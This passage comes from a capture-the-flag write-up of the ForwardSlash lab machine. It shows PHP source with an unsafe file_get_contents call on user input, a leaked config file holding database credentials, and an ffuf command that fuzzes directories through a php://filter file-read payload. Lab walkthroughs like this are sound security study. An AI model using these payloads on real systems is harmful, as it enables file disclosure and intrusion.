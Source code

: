         $picture = explode("-----output-----<br>", file_get_contents($_POST['url']));
        if (strpos($picture[0], "session_start();") !== false) {
                echo "Permission Denied; not that way ;)";
                exit;
        }
        echo $picture[0];
        exit;
}
?>

{{</ highlight >}}

At line 13 there's the check that was preventing the data exfiltration, and as
we can see, at line 17 it just echoes the result of `file_get_contents`, but
there's not much more there.

While visiting the other file such as `register.php`, I saw that all of them
included one file called `config.php` that probably contains helper functions,
so let's read it:
```php
<?php
//credentials for the temp db while we recover, had to backup old config, didn't want it getting compromised -pain
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'www-data');
define('DB_PASSWORD', '5iIwJX0C2nZiIhkLYE7n314VcKNx8uMkxfLvCTz2USGY180ocz3FQuVtdCy3dAgIMK3Y8XFZv9fBi6OwG6OYxoAVnhaQkm7r2ec');
define('DB_NAME', 'site');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

We have some credentials! But here I was stuck for quite a bit as I can't seem
to use them anywhere. After a long pause I came back to the machine and it took
me hours to finally make it to the next step. So frustrating when you don't have
any clues about what to do.

## First shell

I started fuzzing for files and I found a folder named `dev`:
```
$ ffuf -nb -c -r -fs 410 -w /usr/share/wordlists/raft-large-directories-lowercase.txt -X POST -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -b "PHPSESSID=8qiu4kr68c7j2ir7439ia2mt4t" -d 'url=php://filter/read=string.rot13/resource=FUZZ/index.php' -u http://backup.forwardslash.htb/profilepicture.php
dev                     [Status: 200, Size: 1452, Words: 5, Lines: 7]
```
